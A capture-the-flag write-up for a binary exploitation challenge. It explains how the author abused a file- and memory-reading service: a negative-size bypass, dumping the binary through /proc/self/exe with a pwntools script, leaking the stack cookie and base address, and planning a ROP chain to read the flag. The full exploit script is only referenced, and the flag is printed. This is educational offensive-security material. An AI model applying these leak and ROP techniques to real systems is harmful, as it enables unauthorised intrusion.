







# Service

The service running can read a file or memory, multiple times in a single run.

Can bind to port 1337 locally as well.
```bash
./sc -b 1337 undutmaning-ab915c4cdadc-allmant-0.chals.io
```



Crashing on non-existing files or invalid memory addresses.

With a bunch of attempts, there is a size limit of 144 bytes for the read.



Reading the ./flag is not allowed. Trying to bypass it with `./././` or similar doesn't work.

# Binary

The size limit can be bypassed with a size of `-1`, but it makes the program crash for larger data after it is printed.

Reading the binary can still be done.

```bash
from pwn import remote

def dump(filename, size=-1):
    P = remote('undutmaning-ab915c4cdadc-allmant-0.chals.io', 443, ssl=True)
    P.sendline(b"1")
    P.recvuntil(b"Filename: ")
    P.sendline(filename)
    P.recvuntil(b"nr of bytes: ")
    P.sendline(str(size).encode())
    suff = b"EOF "+filename
    data = P.recvuntil(suff)[:-len(suff)-1]
    return data

f = open("allmant_underligt_extraordinart_verktyg", "wb")
f.write(dump(b"/proc/self/exe"))
f.close()
```

The binary can be used locally for debug and reversing.

[allmant_underligt_extraordinart_verktyg](workdir/allmant_underligt_extraordinart_verktyg)

# Leak

The memory addresses are not known. Trying to read the full `/proc/self/maps` crashing the program and the first 144 bytes are useless. Checking locally: `*** stack smashing detected ***: terminated`.

<details>
  <summary>/proc/self/maps</summary> 

```
(1) Read file
(2) [DEBUG] Read mem
Choice: 1
Filename: /proc/self/maps
nr of bytes: 144
10000000-10001000 ---p 00000000 00:00 0
10002000-10003000 ---p 00000000 00:00 0
10004000-10005000 ---p 00000000 00:00 0
10006000-10007000 ---
EOF /proc/self/maps
(1) Read file
(2) [DEBUG] Read mem
Choice: 1
Filename: /proc/self/maps
nr of bytes: -1
10000000-10001000 ---p 00000000 00:00 0 
10002000-10003000 ---p 00000000 00:00 0 
10004000-10005000 ---p 00000000 00:00 0 
10006000-10007000 ---p 00000000 00:00 0 
10008000-10009000 ---p 00000000 00:00 0 
1000a000-1000b000 ---p 00000000 00:00 0 
1000c000-1000d000 ---p 00000000 00:00 0 
1000e000-1000f000 ---p 00000000 00:00 0 
10010000-10011000 ---p 00000000 00:00 0 
10012000-10013000 ---p 00000000 00:00 0 
10014000-10015000 ---p 00000000 00:00 0 
10016000-10017000 ---p 00000000 00:00 0 
10018000-10019000 ---p 00000000 00:00 0 
1001a000-1001b000 ---p 00000000 00:00 0 
1001c000-1001d000 ---p 00000000 00:00 0 
1001e000-1001f000 ---p 00000000 00:00 0 
10020000-10021000 ---p 00000000 00:00 0 
10022000-10023000 ---p 00000000 00:00 0 
10024000-10025000 ---p 00000000 00:00 0 
10026000-10027000 ---p 00000000 00:00 0 
10028000-10029000 ---p 00000000 00:00 0 
1002a000-1002b000 ---p 00000000 00:00 0 
1002c000-1002d000 ---p 00000000 00:00 0 
1002e000-1002f000 ---p 00000000 00:00 0 
10030000-10031000 ---p 00000000 00:00 0 
56636000-56637000 r--p 00000000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
56637000-56638000 r-xp 00001000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
56638000-56639000 r--p 00002000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
56639000-5663a000 r--p 00002000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
5663a000-5663b000 rw-p 00003000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
f7d1c000-f7d3c000 r--p 00000000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7d3c000-f7eba000 r-xp 00020000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7eba000-f7f3f000 r--p 0019e000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7f3f000-f7f40000 ---p 00223000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7f40000-f7f42000 r--p 00223000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7f42000-f7f43000 rw-p 00225000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7f43000-f7f4d000 rw-p 00000000 00:00 0 
f7f4f000-f7f51000 rw-p 00000000 00:00 0 
f7f51000-f7f54000 r--p 00000000 00:00 0                                  [vvar]
f7f54000-f7f55000 r-xp 00000000 00:00 0                                  [vdso]
f7f55000-f7f56000 r--p 00000000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
f7f56000-f7f7b000 r-xp 00001000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
f7f7b000-f7f8a000 r--p 00026000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
f7f8a000-f7f8c000 r--p 00034000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
f7f8c000-f7f8d000 rw-p 00036000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
ffd94000-ffdd9000 rw-p 00000000 00:00 0                                  [stack]

EOF /proc/self/maps
```

Amongst the other proc files, `/proc/self/syscall` has some addresses including the stack and can fit in 144 bytes.

</details>
<br />



# Memory

Reading some memory addresses with the debug functionality is possible now. Although only once per run.



## Stack cookie

From earlier stack smash, it can be seen there are stack cookies used.

The leaked address `+0x90` has the stack cookie.



## Stack frame
The saved `ebp` can be used to calculate the previous `ebp` as well.

## Base address

Walking through the stack and using the saved return address near the cookie, the base address of the binary can be also calculated. Mapping the ghidra offsets as well.

```
base_addr = original_ret - 0x128 - 0x00001827
base_addr_ghidra = base_addr - 0x00010000
```

# Exploit

We can smash the stack now and build a ROP chain, as we can fix the stack cookie and stack frame. 



Calling into the middle of the `read_file` with the `./flag` as parameter. 

Some things had to be fixed for correct run, `ebx` should contain the `got` address and `ebp` was reused from previous run.

See [exploit.py](workdir/exploit.py) for details.



# Flag
`undut{hej_h3j_hej_5k1cka_hit_AUXV_sl4ddeN}`
